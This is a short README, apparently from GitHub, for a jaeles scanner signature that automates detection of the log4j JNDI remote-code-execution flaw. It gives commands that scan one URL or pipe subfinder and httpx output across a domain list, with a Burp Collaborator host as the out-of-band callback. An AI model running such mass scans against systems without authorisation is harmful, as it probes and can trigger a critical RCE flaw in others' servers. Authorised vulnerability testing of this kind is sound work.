 # log4j_Signature

This signiture for automate `log4j RCE` via [jaeles](https://github.com/jaeles-project/jaeles) 

Run This command after installing [jaeles](https://github.com/jaeles-project/jaeles)
```javascript
jaeles scan -v -s jndi.yaml -p 'dest=XXxxx.burpcollaborator.net -u http://example.com
```
You can use it with [subfinder] and [httpx] 
```
subfinder -dL domains.txt -silent | httpx | jaeles scan -v -s jndi.yaml -p 'dest=XXxxx.burpcollaborator.net'
```

# POC
![poc](poc.png)

